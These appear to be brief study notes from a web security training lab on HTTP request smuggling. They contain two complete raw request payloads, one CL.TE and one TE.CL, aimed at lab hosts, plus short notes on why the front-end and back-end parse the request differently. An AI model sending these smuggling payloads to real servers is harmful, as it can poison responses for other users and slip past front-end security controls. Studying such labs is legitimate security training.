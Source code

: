 # Encounters

# HTTP/1 Request Smuggling CL.TE vuln
```
POST / HTTP/1.1
Host: 0a1e007203a734d881dc340c000700f9.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```
## Observations
- Could use Burp Extension to find smuggling. 
- This occurs because the front-end server doesn't support chunked encoding but the back-end server does. 
- Send the first request and get a normal response, send it again and you'll get the 404. 

# Request smuggling TE.CL 
- The backend doesn't support transfer encoding but the front end does. 
```
POST / HTTP/1.1
Host: 0a51008a03e8dd4780a2121300af007c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```


